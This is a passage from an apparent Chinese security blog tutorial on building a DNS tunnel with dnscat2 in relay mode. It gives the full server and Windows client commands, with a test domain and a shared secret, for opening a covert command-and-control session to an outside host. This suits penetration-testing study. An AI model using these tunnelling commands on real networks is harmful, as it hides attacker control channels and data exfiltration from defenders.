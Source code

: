 服务器目前在监听状态，执行以下命令测试客户端能否与服务器进行通信



```
dnscat2-v0.07-client-win32.exe --ping test.hack.com
```




![](https://img-blog.csdnimg.cn/20200221101628428.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



可以看到，服务器收到了客户端的请求



 ![](https://img-blog.csdnimg.cn/20200221101651294.png)



中继模式建立隧道

--------



### 服务端



在**服务端**执行以下模式进行监听



```
ruby ./dnscat2.rb test.hack.com -e open -c root@123456 --no-cache       
    -e：指定安全级别，open表示服务端运行客户端不进行加密      
    -c：指定密钥      
    --no-cache：禁止缓存，一定添加该选项，因为powershell-dnscat2客户端域dnscat2服务端的Caching模式不兼容
```




![](https://img-blog.csdnimg.cn/20200221101053203.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 客户端



**客户端(C语言版本的)**执行以下命令，连接服务端



```
dnscat2-v0.07-client-win32.exe --dns domain=test.hack.com --secret=root@123456
```




如下，客户端显示 Session established！ ，表示连接成功。 

